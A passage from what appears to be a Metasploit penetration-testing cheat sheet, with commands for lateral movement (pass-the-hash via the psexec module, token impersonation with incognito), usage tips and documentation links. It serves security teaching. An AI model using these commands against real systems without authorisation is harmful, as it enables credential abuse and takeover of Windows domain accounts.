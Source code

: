 ### Lateral Movement
```bash
# Pass the hash
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

# Token impersonation
load incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"
```

## 📚 Pro Tips
1. Always update Metasploit: `msfupdate`
2. Use workspaces to organize different engagements
3. Save sessions: `sessions -i 1 -s session.txt`
4. Background sessions: `background`
5. Use `info` command extensively to understand modules

## 🔗 References
- [Official Metasploit Documentation](https://docs.metasploit.com/)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [Meterpreter Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
